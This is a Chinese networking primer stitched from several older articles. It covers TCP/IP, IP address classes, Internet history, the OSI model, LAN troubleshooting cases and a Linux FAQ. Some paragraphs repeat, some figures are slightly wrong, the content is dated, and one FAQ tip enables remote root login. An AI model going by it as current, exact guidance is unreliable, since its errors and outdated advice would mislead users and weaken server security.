TCP（Transmission Control Protocol）和UDP（User Datagram Protocol）协议属于传输层协议。其中，TCP提供IP环境下的数据可靠传输，它提供的服务包括数据流传送、可靠性、有效流控、全双工操作和多路复用。通过面向连接、端到端和可靠的数据包发送。通常说，它是事先为所发送的数据开辟出连接好的通道，然后再进行数据发送；而UDP则不为IP提供可靠性、流控或差错恢复功能。一般来说，TCP对应的是可靠性要求高的应用，而UDP对应的则是可靠性要求低、传输经济的应用。TCP支持的应用协议主要有：Telnet、FTP、SMTP等；UDP支持的应用层协议主要有：NFS（网络文件系统）、SNMP（简单网络管理协议）、DNS（域名系统）、TFTP（简单文件传输协议）等。

## IP协议的定义、IP地址的分类及特点

什么是IP协议，IP地址如何表示，分为几类，各有什么特点？

为了便于寻址和层次化地构造网络，IP地址被分为A、B、C、D、E五类，商业应用中只用到A、B、C三类。

IP协议（Internet Protocol）又称互联网协议，是支持网间互连的数据报协议，它与TCP协议（传输控制协议）一起构成了TCP/IP协议族的核心。它提供网间连接的完善功能，包括IP数据报规定互连网络范围内的IP地址格式。

Internet上，为了实现连接到互联网上的结点之间的通信，必须为每个结点（入网的计算机）分配一个地址，并且应当保证这个地址是全网唯一的，这便是IP地址。

目前的IP地址（IPv4，IP第4版本）由32个二进制位表示，每8位二进制数为一个整数，中间由小数点间隔，如159.226.41.98。整个IP地址空间有4组8位二进制数，由表示主机所在网络的地址（类似部队的编号）以及主机在该网络中的标识（如同士兵在该部队的编号）共同组成。

为了便于寻址和层次化地构造网络，IP地址被分为A、B、C、D、E五类，商业应用中只用到A、B、C三类。

- A类地址：A类地址的网络标识由第一组8位二进制数表示，网络中的主机标识占3组8位二进制数；A类地址的特点是网络标识的第一位二进制数必须为“0”。A类地址允许有126个网段，每个网络大约允许有1670万台主机，通常分配给拥有大量主机的网络（如主干网）。
- B类地址：B类地址的网络标识由前两组8位二进制数表示，网络中的主机标识占两组8位二进制数；B类地址的特点是网络标识的前两位二进制数取值必须为“10”。B类地址允许有16384个网段，每个网络允许有65533台主机，适用于结点比较多的网络（如区域网）。
- C类地址：C类地址的网络标识由前3组8位二进制数表示，网络中主机标识占1组8位二进制数；C类地址的特点是网络标识的前3位二进制数取值必须为“110”。具有C类地址的网络允许有254台主机，适用于结点比较少的网络（如校园网）。

为了便于记忆，通常习惯采用4个十进制数来表示一个IP地址，十进制数之间采用句点“.”予以分隔。这种IP地址的表示方法也被称为点分十进制法。如以这种方式表示，A类网络的IP地址范围为1.0.0.1—127.255.255.254；B类网络的IP地址范围为128.1.0.1—191.255.255.254；C类网络的IP地址范围为192.0.1.1—223.255.255.254。

由于网络地址紧张、主机地址相对过剩，采取子网掩码的方式来指定网段号。

TCP/IP协议与低层的数据链路层和物理层无关，这也是TCP/IP的重要特点。正因为如此，它能广泛地支持由低层协议构成的物理网络结构。目前已使用TCP/IP连接成局域网、全国网与跨地区网。

### 四、网络发展简史

纵观近几十年信息时代的风云变换，人们可以了解网络的发展是与计算机、尤其是个人电脑（PC）的发展密切相关的。

第一台计算机诞生于1945年，标志着人类自从学会使用工具的漫长岁月中，终于拥有了可以替代人类脑力劳动的“工具”；到六、七十年代，进而衍生出计算机互连系统——严格说来还算不上真正的网络——它是IBM和Digital的中央处理系统，网络主体是一台或多台大型主机，被隔离在一个相对封闭的机房（那时人们通常称这种机房为“玻璃屋”），然后由一群身穿白大褂的工作人员小心维护；大多数网络用户面对的是一台台非智能化的终端，所有对终端的操作都将通过低速链路传递到主机去进行处理，网络的效率主要由链路的速率和主机的性能决定。这样的网络不是面向大众的，仅局限于一些专业领域，如：金融行业、研究机构等。对大多数人而言，网络是陌生的、神秘的甚至是虚无缥缈的东西。

直到八十年代PC的出现，才给网络吹来一股清新之风——相对终端而言，PC具备自己的处理引擎（CPU）和文件存储区域（硬盘），能够装载多种应用程序，独立地完成许多工作，从而将强大的计算能力交到个人手里；相对大型主机而言，这种轻便的机器内部结构大大简化，其价格远低于大型机，并且随着批量生产和技术的迅速成熟还在不断下降，使越来越多的用户能享受到这种智能设备带来的迅速、方便、功能强大的服务。因此可以说PC的出现首先是满足了个人用户信息处理的需要。但与个人信息处理紧密相关的便是信息的交换，于是联网的需求应运而生——人们购买网络设备和连线，在自己的办公室内搭建起局域网，实现本地通信；为了扩展网络距离，又向提供服务的电话公司租用电话线或其它线路，在城市的各个角落甚至城市之间建立起广域网；再进一步发展下去，又出现了一类专门的服务行业，可以通过主干连接将原本隔离的多个网络互联起来，构成跨越国度的网际网。在这一过程中，Internet（国际互联网）的蓬勃兴起毫无疑问地成为网络技术成长的催化剂。

发展形成Internet，其应用范围也由最早的军事、国防，扩展到美国国内的学术机构，进而迅速覆盖了全球的各个领域，运营性质也由科研、教育为主逐渐转向商业化。

90年代初，中国作为第71个国家级网加入Internet。目前，Internet已经在我国开放，通过中国公用互连网络（CHINANET）或中国教育科研计算机网（CERNET）都可与Internet联通。只要有一台微机、一部调制解调器和一部国内直拨电话，就能够很方便地享受到Internet的资源；这是Internet逐步“爬”入普通人家的原因之一；原因之二，友好的用户界面、丰富的信息资源、贴近生活的人情化感受，使非专业的家庭用户既能做到应用自如，又能大饱眼福，甚至利用它为自己的工作、学习、生活更锦上添花，真正做到“足不出户，可成就天下事”。

网络的神奇作用吸引着越来越多的用户加入其中，正因如此，网络的承受能力也面临着越来越严峻的考验——从硬件上、软件上、所用标准上……各项技术都需要适时应势、对应发展，这正是网络迅速走向进步的催化剂。到了今天，Internet能够负担如此众多用户的参与，说明我们的网络技术已经成长到了相当成熟的地步，用户自己也能耳闻目睹不断涌现的新名词、新概念。但这还不是终结，仅仅是历史长河中一段新纪元的开始而已。

## Internet发展简史

Internet的应用范围由最早的军事、国防，扩展到美国国内的学术机构，进而迅速覆盖了全球的各个领域，运营性质也由科研、教育为主逐渐转向商业化。

在科学研究中，经常碰到“种瓜得豆”的事情，Internet的出现也正是如此：它的原型是1969年美国国防部远景研究规划局（Advanced Research Projects Agency）为军事实验而建立的网络，名为ARPANET，初期只有四台主机，其设计目标是当网络中的一部分因战争原因遭到破坏时，其余部分仍能正常运行；80年代初期ARPA和美国国防部通信局研制成功用于异构网络的TCP/IP协议并投入使用；1986年在美国国家科学基金会（National Science Foundation）的支持下，用高速通信线路把分布在各地的一些超级计算机连接起来，以NSFNET接替ARPANET，进而又经过十几年的发展形成Internet。

## Internet的应用续摘

Internet如此美妙，初入门者不免好奇：它究竟可以为我们做哪些事？总的说来，Internet是一套通过网络来完成有用通信任务的应用程序。下面的篇幅将从应用入手，展示Internet的几项最广为流行的功能，它包括：电子邮件、WWW、文件传输、远程登录、新闻组、信息查询等。

##### 电子邮件（Email）

有了通达全球的Internet后，人们首先想到的是可以利用它来提供个人之间的通信，而且这种通信应能兼具电话的速度和邮政的可靠性等优点。这种思路生根发芽成长起来，最终得到的果实便是Email。通过它，每人都可以有自己的私有信箱，用以储存已收到但还未来得及阅读的信件；Email地址包括用户名加上主机名，并在中间用@符号隔开，如hdc@gbnet.gb.co.cn。


从最初的两人之间的通信，如今的电子邮件软件能够实现更为复杂、多样的服务，包括：一对多的发信，信件的转发和回复，在信件中包含声音、图像等多媒体信息等；甚至可以做到只要有你的邮件到达，挂在你身上的BP机就嘀嘀作响发出提示；人们还可以像订购报刊杂志一样在网上订购所需的信息，通过电子邮件定期送到自己面前。

##### WWW

World Wide Web（通常被称为WWW）在中文里常被译作“万维网”，除发音相近外，也体现了其变化万千的内涵。用户借助于一个浏览器软件，在地址栏里输入所要查看的页面地址（或域名），就可以连接到该地址所指向的WWW服务器，从中查找所需的图文信息。WWW访问的感觉有些像逛大商场，既可以漫无边际地徜徉，也可以奔着一个目标前进；但不论如何，当用户最终获得想要的内容时，也许已经跨越了千山万水，故有时我们也称之为“Web冲浪”。

WWW服务器所存储的页面内容是用HTML语言（Hyper Text Mark-up Language）书写的，它通过HTTP协议（Hyper Text Transfer Protocol）传送到用户处。

##### 文件传输（FTP）

尽管电子邮件也能传送文件，但它一般用于短信息传递。Internet提供了称作FTP（File Transfer Protocol）的文件传输应用程序，使用户能发送或接收非常大的数据文件；当用户发出FTP命令、连接到FTP服务器后，可以输入命令显示服务器存储的文件目录，或从某个目录拷贝文件，通过网络传递到自己的计算机中。FTP服务器提供了一种验证用户权限的方法（用到用户名、密码），限制非授权用户的访问。不过，很多系统管理员为了扩大影响，打开了匿名FTP服务设置——匿名FTP允许没有注册名或口令的用户在机器上存取指定的文件，它用到的特殊用户名为“anonymous”。

##### 远程登录（Remote Login）

远程登录允许用户从一台机器连接到远程的另一台机器上，并建立一个交互的登录连接。登录后，用户的每次击键都传递到远程主机，由远程主机处理后将字符回送到本地的机器中，看起来仿佛用户直接在对这台远程主机操作一样。远程登录通常也要有效的登录账号来接受对方主机的认证。常用的登录程序有TELNET、RLOGIN等。

### Usenet新闻组

Usenet新闻是Internet上的讨论小组或公告牌系统（BBS）。Usenet在一套名为“新闻组”的标题下组织讨论，用户可以阅读别人发送的新闻或发表自己的文章。新闻组包括数十大类、数千组“新闻”，平均每一组每天都有成百上千条“新闻”公布出来。新闻组的介入方式也非常便捷，你可以在上面高谈阔论、问问题，或者只看别人的谈论。

上面所列举的仅是Internet文化长廊中的主要内容，但绝不是全部。Internet永远是在不断发展、推陈出新的，这将是我们下一篇的内容——Internet的发展趋势。

## Internet发展面临的问题

在上篇中我们讲述了Internet的发展简史和它的方方面面应用。正是由于Internet的丰富多彩，才会吸引越来越多的人加入其中；对用户而言，Internet正一步步渗透到我们工作、生活的各个方面，极大地改变了长久以来形成的传统思维和生活方式；而对Internet而言，用户的积极参与使得这一全球通行的网络迅速膨胀起来，用户对它的需求也不断升级，使Internet的耐受力面临带宽短缺、IP地址资源匮乏等严峻考验。

### 1. 带宽的短缺

据1995年年中的估计，有150多个国家和地区的6万多个网络同Internet联结，入网计算机约450万台，直接使用Internet的用户达4000万人。而到今天，Internet已经开通到全世界大多数国家和地区，几乎每隔二十分钟就有一个新的网络连入，主机数量每年翻两番，用户数量每月增长百分之十，预计到本世纪末和下世纪初，Internet将连接近亿台计算机，达到以十亿计的用户。而对更远的将来，人们很难精确估计。不管怎么说，这些数字已足以说明Internet的危机所在：就好像一根悬挂了很多重物的钢丝绳，重量增加了，绳子就有断裂的危险；而用户在Internet上的游历实际上要走过很多根这样的“钢丝绳”，用户越多，绳子的负载越重，其中任一根不结实，都会成为瓶颈，导致网络访问的失败。因此，“钢丝绳”的加固——带宽容量的增加势在必行。从Internet主干到分支，直至最终用户的接入，都出现了许多成熟的或正在发展的链路技术来实现这项需求，我们将在后文着重介绍其中用户最为关心的几种接入技术。

### 2. IP地址资源的匮乏

我们曾介绍了IP地址的格式和分类，这里所指的都是现行的IPv4——它是一个32位二进制数，因此总地址容量为2^32，也即有数亿个左右。而按照TCP/IP协议（同很多其它协议一样）的规定，互联网络中每一个节点都必须有自己独一无二的地址来作为标识，那么很显然，相对前文日益增长的用户数，现有IP地址资源已不堪重负，很快将被用光——有预测表明，以目前Internet发展速度计算，所有IPv4地址将在2005～2010年间分配完毕。

解决IP地址缺乏的办法之一是想办法延缓资源耗尽的时间，目前最广泛应用的技术当属NAT（Network Address Translation，网络地址翻译）——它使企业用户在内部网络应用中采用自行定义的地址，只在需要作Internet访问时才翻译为合法的Internet地址；它的最大好处是用户加入Internet时不需更改内部地址结构，而只需在内外交界处实施地址转换，并且能够实现多个用户复用同一合法地址，从而大大节省地址资源；但作NAT转换的同时也增加了网络的复杂性，何况它并不能阻止可用地址越来越减少的趋势。

作为对IPv4问题的解决，一种新的IP地址定义应运而生，它便是下文讲的IPv6。

### Internet的发展趋势探索

Internet的发展首先是要走出困境、扩展容量，然后才有可能继续推出各项新的应用并且运用自如。现在我们将从网络线路的发展说起，谈谈近年来成为通信热点的宽带接入技术，以及Internet新的应用趋势。

### 1. 接入技术的发展

接入技术也称“最后一公里”技术，表示从最终用户到本地电信服务商之间的一段连接。大家已经熟悉的有PSTN拨号、ISDN和专线等技术，而近几年接入技术发展迅猛，比较成熟的有：

#### ADSL

ADSL又称非对称数字用户线，是DSL家族系列技术（HDSL、VDSL、IDSL等）中应用最广的一种。它的最大好处是利用现有的电话双绞线作为传输介质，因此成本较低；接入带宽却相对电话线传输的PSTN（目前最高115.2Kbps）快了许多，从局端到用户的下行速率理论上可达7～8M，实际使用的下行速率一般为1.5～2Mbps，从用户到局端的上行速率为几百Kbps，这也比PSTN有了很大提高；ADSL的非对称性与终端用户的网络访问特点是相一致的——个人用户多数应用都是以客户方式从网上去获取数据，如WWW、FTP，只有个别时候才向网络大量发送数据，如发送附带多媒体信息的电子邮件，因此下行数据量大、上行数据量小，也为非对称方式。

#### 线缆调制解调器

线缆调制解调器是一项非常适宜于家庭用户的接入技术。它在电缆电视的基础上，将分配网络的主干部分改为光缆，在各个服务节点处完成光电转换，再由同轴电缆将传输信号送到用户家里，可有效地实现Internet访问、电视点播和数据电话等业务，市场前景广阔。线缆传输也是非对称方式，每服务节点下行速率高达10～30Mbps，上行速率可达2M左右，但与ADSL不同，它是一个共享网络，实际每用户可用带宽与节点所连的上网用户数成反比，即便如此，用户能享用的带宽也是相当可观的。

线缆调制解调器应用发展的最大障碍是线缆线路的双向改造——传统的有线电视大多是单向传输，而数据的访问是双向进行的，因此必须实施线路改造以适应这项新的应用。在改造完成之前也有一种暂时的解决办法：即下行数据传递采用电视线缆，上行数据则采用电话线回传。

#### 无线接入技术

作为有线接入的补充，在不便于有线接入的地区，用无线通信设备把用户接入市话交换网，统称为无线接入系统。无线本地环路系统技术来源于以下三个方面：

- 来源于蜂窝移动通信系统；
- 来源于大区制通信系统、数字无绳电话系统、数字微波和卫星通信系统。大区制系统主要指集群通信系统；
- 来源于专用的无线本地环路系统，采用大功率、大覆盖、低成本。

无线接入技术很快被市场接受，发展十分迅速。目前世界各大通信公司几乎都有典型产品。

CDMA（码分多址）和其衍生的无线本地环路技术有着其他无线接入技术不可比拟的优点，代表无线接入技术的发展方向。

接入技术的发展充分体现了“三网合一”的应用趋势：ADSL是利用原来的语音载体电话线传递数据，线缆调制解调器则利用原有的图像载体有线电视传递数据，大家熟悉的IP电话则是通过各类数据载体传送语音。因此，今后的数据网、电视网和电话网络不再相互隔离，共同承载数据、语音、图像集成的业务，缓解了Internet的带宽压力。

### 2. IPv6技术

正当人们为IPv4面临的问题而焦头烂额时，IPv6出现了，它给人们带来了近乎完美的解决方案：

- 如同电话号码升位一样，IPv6提供了128位的IP地址，使地址数量大幅增加，从而解决了现在的IP地址资源危机；
- IPv6采用了“可聚集全球统一计算地址”的构造，这使IP地址构造同网络的拓扑结构（连接形态）相一致，从而缩小了路由表，使路由器能够高效率地决定路由；
- IPv6具有自动把IP地址分配给用户的功能，大大减少了网络管理费用。

尽管IPv6比IPv4具有明显的优越性，但在全球范围内实现地址的升级有许多实际困难。为此，Internet研究组织IETF制定了一套IPv4向IPv6过渡的方案，其中包括三个机制：兼容IPv4的IPv6地址、双IP协议栈和基于IPv4隧道的IPv6。

### 3. 应用的发展——电子商务

在Internet发展史第一篇中我们介绍了基于Internet的各项应用，但它们只是人们用以达到某些目标的手段，就像原始人学会了利用工具一样。电子商务（E-Commerce）便是基于网络应用的各种技术在各行各业实施的全方位改造，为人们展示了一个全新、璀璨的世界。电子商务不一定都通过Internet来完成，但Internet的高速发展却为其提供了生根萌芽的沃土。大名鼎鼎的Amazon公司应该说敢为勇者先，率先架筑起自己图书购销配送服务的庞大帝国，成为电子商务运作的典范。同以前所提到的应用相比，电子商务更像一种理念，它的实现并没有固定的格式。

在Internet或自己的网络上利用各种技术建设适合自身特点的Intranet、Extranet，其中策略的制定是发展的关键。不论进度如何，电子商务必然是Internet应用的一项主要发展趋势。

纵观十多年来Internet的发展史，人们很难说清未来它究竟会是什么样，但Internet还将继续改变我们的生活，推动人类文明的发展，这是谁都否认不了的。

## 五、OSI七层模型

ISO国际标准组织所定义的开放系统互连七层模型的定义和各层功能。它是网络技术入门者的敲门砖，也是分析、评判各种网络技术的依据——从此网络不再神秘，它也是有理可依、有据可循的。

建立七层模型主要是为解决异种网络互连时所遇到的兼容性问题。它的最大优点是将服务、接口和协议这三个概念明确地区分开来，也使网络的不同功能模块分担起不同的职责。

网络发展中一个重要里程碑便是ISO（International Organization for Standardization，国际标准组织）对OSI（Open System Interconnect，开放系统互连）七层网络模型的定义。它不但成为以前的和后续的各种网络技术评判、分析的依据，也成为网络协议设计和统一的参考模型。

建立七层模型的主要目的是为解决异种网络互连时所遇到的兼容性问题。它的最大优点是将服务、接口和协议这三个概念明确地区分开来：服务说明某一层为上一层提供一些什么功能，接口说明上一层如何使用下层的服务，而协议涉及如何实现本层的服务。这样各层之间具有很强的独立性，互连网络中各实体采用什么样的协议是没有限制的，只要向上提供相同的服务并且不改变相邻层的接口就可以了。网络七层的划分也是为了使网络的不同功能模块（不同层次）分担起不同的职责，从而带来如下好处：

- 减轻问题的复杂程度，一旦网络发生故障，可迅速定位故障所处层次，便于查找和纠错；
- 在各层分别定义标准接口，使具备相同对等层的不同网络设备能实现互操作，各层之间则相对独立，一种高层协议可放在多种低层协议上运行；
- 能有效刺激网络技术革新，因为每次更新都可以在小范围内进行，不需对整个网络动大改。

## 大好处

- 便于研究和教学。网络分层体现在许多工程设计中都具有的结构化思想，是一种合理的划分。

#### 网络七层的功能

网络七层包括物理层、数据链路层、网络层、传输层、会话层、表示层和应用层。其中物理层、数据链路层和网络层通常被称作媒体层，是网络工程师所研究的对象；传输层、会话层、表示层和应用层则被称作主机层，是用户所面向和关心的内容。

那么，网络七层的具体定义和相应职责各是什么呢？下图便是 OSI 七层模型的协议堆栈示意，它们由下到上分别为：

- 第一层——物理层：定义通信网络之间物理链路的电气或机械特性，以及激活、维护和关闭链路的操作。特征参数包括电压、数据传输率、最大传输距离、物理连接媒体等。
- 第二层——数据链路层：通过分帧、差错控制、流控等手段，将不可靠物理链路转换为对上层较可靠的数据链路。涉及物理地址、网络拓扑结构、错误警告机制、帧排序和流控等。
- 第三层——网络层：将数据分组，并在分组头中标识源和目的逻辑地址；依据地址进行路径选择与路由。
- 第四层——传输层：提供端到端的可靠传输，关注最终传输效果；包括流控、多路复用、虚电路管理、纠错与恢复等。
- 第五层——会话层：在网络实体间建立、管理和终止会话，协调服务请求与响应。
- 第六层——表示层：定义编码与转换规则，保证源端数据在目的端可被识别，如 ASCII、GIF、MPEG 等表示形式。
- 第七层——应用层：面向用户，通过应用软件实现网络与用户的直接对话，如资源发现、对象识别与同步操作等。

| OSI参考模型（简单图） |
|---|
| 应用层 |
| 表示层 |
| 会话层 |
| 传输层 |
| 网络层 |
| 数据链路层 |
| 物理层 |

网络七层的底三层（物理层、数据链路层和网络层）通常称为媒体层，更多面向网络支撑；上四层（传输层、会话层、表示层和应用层）通常称为主机层，更面向用户。常见网络应用如 WWW、FTP、TELNET 等，是多层功能综合后的表现。

在实际传输中，发送端自上而下逐层封装控制信息，经物理媒体发送；接收端再自下而上逐层解封装还原数据。通信双方在对等层必须采用相同协议与数据标识格式，才能保证数据正确传输。


## OSI与实际应用模型

七层模型是一个理论模型，实际应用则千变万化，完全可能发生变异。对大多数应用，我们只是将它的协议族（即协议堆栈）与七层模型作大致的对应，看看实际用到的特定协议是属于七层中某个子层，还是包括了上下多层的功能。

网络中实际用到的协议是否严格按照这七层来定义呢？并非如此，七层模型是一个理论模型，实际应用则千变万化，完全可能发生变异。何况有的应用由来已久，不可能在七层模型推出后又推翻重来。因此对大多数应用，我们只是将它的协议族（即协议堆栈）与七层模型作大致的对应，看看实际用到的特定协议是属于七层中某个子层，还是包括了上下多层的功能。我们在以前的篇幅中曾介绍过的 TCP/IP 协议，它与七层模型的对应关系如下：

| OSI层 | TCP/IP对应 |
|---|---|
| 应用层 | * |
| 表示层 | 应用层 |
| 会话层 | * |
| 传输层 | 传输层 |
| 网络层 | 网络层 |
| 数据链路层 | 网络接口层 |
| 物理层 | * |

由图二可看出，TCP/IP 的多数应用协议将 OSI 应用层、表示层、会话层的功能合在一起，构成其应用层，典型协议有：HTTP、FTP、TELNET 等；TCP/UDP 协议对应 OSI 的传输层，提供上层数据传输保障；IP 协议对应 OSI 的网络层，它定义了众所周知的 IP 地址格式，作为网间网中查找路径的依据；TCP/IP 的最底层功能由网络接口层实现，相当于 OSI 的物理层和数据链路层，实际上 TCP/IP 对该层并未作严格定义，而是应用已有的底层网络实现传输，这就是它得以广泛应用的原因。

## 常见网络10大问题

### 问题1：莫名其妙的间歇性中断用户

### 抱怨：服务速度太慢，间歇性中断。

- 现象：问题仅在一个网站上出现，与正在访问的服务器无关。
- 查找问题：断开网站，接上具有流量发送功能的测试工具，检测网络利用率、碰撞和错误帧水平，确定网络是否健康。
- 若仪器检测通过而网站仍时通时断，则可能是物理层故障。进行电缆链路测试，可能出现线缆超长（UTP 约 100 米、同轴约 185 米），超过 IEEE 许可长度会导致信号衰减。
- 解决方法：在线路中增加中继器，使电缆长度在许可范围内；或用光纤替代电缆/同轴线。

### 问题2：可以连接，但不能登录

- 用户抱怨：不能登录到欲连接的服务器。
- 现象：常见于新安装或重新设置工作站后，且仅限某一工作站。
- 查找问题：断开工作站连接，使用网络测试仪执行 IPX Ping，检查配置的网络协议与帧封装类型（如 802.2），并检测网卡驱动及绑定帧类型（如 802.3）。若服务器与工作站帧类型不匹配，则无法连接。
- 解决方法：编辑工作站 NET.CFG，将 `FRAME=ETHERNET_802.3` 修改为 `FRAME=ETHERNET_802.2`，重连并重启后检查服务器连接。

### 问题3：“病人”的心还在跳吗

- 用户抱怨：在网络繁忙高峰期访问速度很慢。
- 现象：个别网段的所有工作站对服务器无响应。
- 查找问题：高峰期接入网络测试仪，运行网段健康测试，观察利用率、碰撞、错误帧与广播帧等指标。测到的流量中可能有高达 50% 是碰撞帧碎片。这是帧信号收发错误——SQE（Signal Quality Error）的表现。“心跳”信号被不经意地停留在“搏”的位置。
- 解决方法：定位网段中每一个信号收发器，检查 SQE 开关是否位于“关”的位置。此信号用在早期的 10BASE-5 以太网中，新的以太网设备已不再使用。

### 问题4：奇怪！难道电缆在夜间受到过撞击

用户抱怨：不能连接上网或不能登录。

现象：网段上只有一个工作站能上网。

查找问题：断开工作站的连接电缆，接上网络测试仪。注意从集线器上应检测不到连接脉冲。运行电缆测试，查看从办公室到配线间之间的电缆是否开路。如果长度正常，将工具设置在音频发生器位置，从配线间用音频探测器查出与办公室对应的电缆，通常情况下，在配线间有变动时，电缆线束会受到挤压和碰撞，引起连接器脱落或松动。

解决方法：插好工作站和集线器之间的电缆连接器，查看连接脉冲指示灯是否发亮，确定用户是否能上网。

### 问题5：光纤错觉

用户抱怨：整个网络变慢。

现象：影响所有连接到网段上的工作站。

查找问题：在正常的网络使用时段，将网络测试仪连接到集线器，在光纤连接的两端产生流量，测试每边健康状况。在某一时刻断开或接上光纤，每当光纤连入网段时，就会观察到大量的错误帧。劣质的光纤链路连接会在其附属的网段中产生大量垃圾帧，迫使工作站重发帧，网络速度变慢。

解决方法：清洁或重新安装好光纤连接器，复位所有的连接器，再次检查网络健康状况，此时应该只有很少的错误帧。

### 问题6：IP网络管理者的报应

用户抱怨：某个工作站间歇性出错，不能登录或者不能访问远端服务器。

现象：只影响一个工作站，通常在增加、移动、变更工作站后出现此问题。

查找问题：先排除用户是否有账户和安全设置方面的潜在问题，让用户登录并且试图从另一个工作站重复这一操作。如果成功，则可以用网络测试仪检查从用户端到服务器之间的链路状况。然后测试网卡，检测硬件和驱动程序的功能和状况。

如果没有问题则检查 IP 设置，确定用户的 IP 地址是否有效或者是否有重复的 IP 地址，确定本网段的子网掩码和路由器默认地址是否正确，DNS 服务器（如果有）地址是否专用。如果一个新工作站的 IP 地址与打印服务器的 IP 地址设置重复，将会把每个人的打印工作指向该新客户机。

解决方法：改为合适的设置，然后 Reboot 工作站。

### 问题7：雏菊链效应

用户抱怨：网络服务变慢。

现象：影响某个以太网段的所有用户。网络服务（访问服务器）变慢，但与所连接的某个服务器无关。

查找问题：在高峰时段将网络测试仪连入集线器，运行网络健康状况测试。此时将会观察到大量错误帧。

在 10BASE-2 网络中，错误帧的类型归类为“延迟碰撞”。在 10BASE-T 网络中，帧错误的类型归类为典型的帧校验序列错误（FCS 错误）。随着网络用户的增长，新增加的集线器通常与原有的集线器形成“雏菊链”效应。

解决方法：统计一下任意两个网络设备之间经过的中继器的数量。在 10Mbps 以太网中不应超过 4 个，在 100Mbps 快速以太网中不应超过 2 个。如果数量超标，则按以太网的标准修正网络拓扑结构，然后再验证错误帧是否还出现。

### 问题8：无效的看门狗

用户抱怨：不能连接 Novell 网络的 NetWare 远端服务器。

现象：影响本网段内与服务器相连的所有工作站。

查找问题：检查网段的健康状况，注意观察其利用率、碰撞、错误帧和广播帧水平。此时可观察到大量的碰撞或错误帧，该碰撞或错误帧可引起客户机和服务器之间“Hello”帧出现延迟。在某一指定的服务器所在的远端网段重复此测试。如果两个网段都出现空白，用网络测试仪向路由器中的 SNMP 代理查询，检查两个网段之间的路径表，确定该路径不存在拥挤问题。为了有效地使用资源，在看门狗允许的时间内如果客户机对“hello”帧无反应，则 Novell 服务器会将该客户机注销。

解决方法：简便的方法是改变“看门狗时延”参数，将 Novell 服务器中的该参数增大。如果状况有所改善，则可确定为引起帧丢失的原因。

### 问题9：快速以太网比升级前的以太网还慢

用户抱怨：10Mbps 的以太网速度慢，升级为 100Mbps 快速以太网后甚至不能连接上网。

现象：影响新工作站或升级的工作站连接上网。

查找问题：对于 UTP5 类非屏蔽双绞线，用电缆测试仪验证其是否符合对应 100Mbps 传输速率的 EIA/TIA-TSB67 标准。某些在 10Mbps 以太网工作正常的电缆链路因为近端串扰太大，在 100Mbps 以太网就不能正常工作。信号耦合到邻近线对引起高频信号传输失败。将 UTP 的线对分开甚至会使网络在达到一定流量时瘫痪。

解决方法：更换或停用不能连接的链路，故障消除后再全部测试处理过的链路。

### 问题10：逮捕那些物理层的滥用者

用户抱怨：不能登录或时断时续。

现象：只影响一个工作站，而该站原先没有问题。

查找问题：电缆终端链路过长。用户每天都移动、弯曲、连接和切断网络终端（尤其是膝上型笔记本电脑）。廉价的电缆测试仪就能检查这种问题。在你能确切地说是电缆的问题之前，通常首先考虑不是电缆问题。这需要使用网络测试工具来验证本地网段的健康状况是否良好，集线器端口功能是否正常，网卡及其驱动程序工作是否良好。最后检查网络互连设备是否有问题。只有此时你才会知道为了孤立有问题的终端、断开的连接器或是接地回路等问题，该从何处着手测试电缆。在同轴线网络中，搜寻在同轴 “T 型头” 和网卡之间的断头。在 UTP 网络中，连续运行仪器的接线图测试功能，不断扭动终端以识别接触不良或短路。

解决方法：更换工作站连接电缆、更换损坏的连接器，或者必要的话停止使用水平电缆。再次全面检查处理过的电缆。

### 总结

从上述例子可以清楚地看到，为了查找通常的网络错误，配备合适的网络测试工具是非常必要的。另外，通过适当的培训，以便使用这些工具去隔离网络故障，也是网络健康维护战略的一部分。

## Linux/Unix 经典问题与解答

### 如何全面卸载 Linux？如何删除它的分区？

- 进入 Linux，用 fdisk 删除 Linux 分区和 swap 区。
- 重新启动，在 DOS 下运行 `fdisk /mbr`，恢复主引导记录。

### 用 ifconfig 发现的 TX packets Error 正常吗？

```text
lo Link encap:Local Loopback inet addr:127.0.0.1 Bcast:0.0.0.0 Mask:255.0.0.0
UP LOOPBACK RUNNING MTU:3924 Metric:1
RX packets:1114876 errors:0 dropped:0 overruns:0 frame:0
TX packets:0 errors:118561002 dropped:1114876 overruns:0 carrier:0

eth0 Link encap:Ethernet HWaddr 00:10:4B:12:06:02
inet addr:202.96.11.11 Bcast:202.96.11.1 Mask:255.255.255.0
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:43291660 errors:0 dropped:0 overruns:0 frame:0
TX packets:0 errors:769125387 dropped:62579395 overruns:0 carrier:0
Interrupt:11 Base address:0xd000
```

我也曾遇到这种情况，上 10M 时正常，上 100M 时比 10M 还慢，后来，更换主板后，就正常了。

### 我在服务器上用 FTP 登录没问题，可是从别的机器登录就不可以。我用 ROOT 用户登录的。机器显示 CONNECT TO ..., CLOSED BY REMOTE HOST 然后就死了。我的 FTPUSERS 中也没禁止 ROOT 用户。特请教高手？

查看你要登录的服务器系统中，在 `/etc/default/login` 文件中是否有 `CONSOLE=` 设备名这一项（比如 `CONSOLE=/dev/console`，它的作用为把 root 限制在主控台设备上注册），如果有，把这一行用 `#` 注释掉，你就可以从远程登录。

远程以 root 登录了，OK！记住，工作结束后，复原（把 `#` 去除），否则，服务器系统有安全隐患。

### 在 libxxx.a 文件中如何查找函数？

用 `strings libxxx.a | less` 吧。

### 请问各位不用 x-windows 可以听 CD 吗？如果可以该如何用？要使用哪些命令？请一一告知？

试试 `cdp` 或 `workbone`。

### Linux 不能检测到我的 NE2000 兼容网卡，为什么？

现在我们已经发现一些可以在较早版本内核中工作的 NE2000 网卡不能在新的 2.0.X 版本的内核中工作。对于其中的一些来说，下面的工作也许有用。你可以按照如下方法尝试使网卡工作：

```text
insmod 8390
insmod ne io=0xXXX irq=Y
```

（注释：用你的网卡的 IO 地址和中断参数替代 XXX 和 Y，大部分经常使用的 IO 地址是 0x300 或 0x310，中断值可能是任意允许的值。）然后，使用 netcfg 或 ifconfig 配置网卡。有时候，即使网卡已经识别出，仍然有报告说网卡不能传送 TCP/IP 协议包。这需要经过测试。如果网卡开始工作了，将它加入到模块文件 `/etc/conf.modules` 中。看起来应该像下面几行：

```text
alias eth0 8390
alias eth0 ne options
eth0 io=0xXXX irq=Y
```

### 拨号不能工作，为什么？

拨号网络不工作的原因很多，TurboLinux 的技术支持不提供对 SLIP、CSLIP、SLIRP、PLIP 的支持。我们假定您已经通过 TurboPPPCfg 配置好 PPP 设备。

